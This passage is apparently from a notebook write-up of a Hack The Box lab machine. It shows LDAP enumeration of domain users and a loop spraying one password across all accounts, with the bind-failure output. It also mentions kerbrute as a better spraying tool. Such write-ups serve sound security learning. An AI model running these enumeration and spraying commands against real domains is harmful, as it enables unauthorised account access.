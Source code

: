     INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: 
    <snip>
    INFO: Querying computer: dc.rustykey.htb
    INFO: Done in 00M 21S



```python
users =!ldapsearch -H ldap://rustykey.htb -D '{domain}\{initialuser}' -w $initialpassword -b "dc=rustykey,dc=htb" "(&(objectClass=user)(objectCategory=person))" sAMAccountName | grep sAMAccountName: | cut -d" " -f2
pprint(users)
```

    ['Administrator',
     'Guest',
     'krbtgt',
     'rr.parker',
     'mm.turner',
     'bb.morgan',
     'gg.anderson',
     'dd.ali',
     'ee.reed',
     'nn.marcos',
     'backupadmin']


Test credentials against all users. I'm going to leave this here to show what a bad idea looks like. Another challenge I will learn it's far easier to user `kerbrute` to password spray. I'll leave this here for the annuls of history.


```python
import winrm

for user in users:
    !ldapwhoami -x -H ldap://rustykey.htb -D '{domain}\{user}' -w $initialpassword
```

    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    u:RUSTYKEY\rr.parker
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)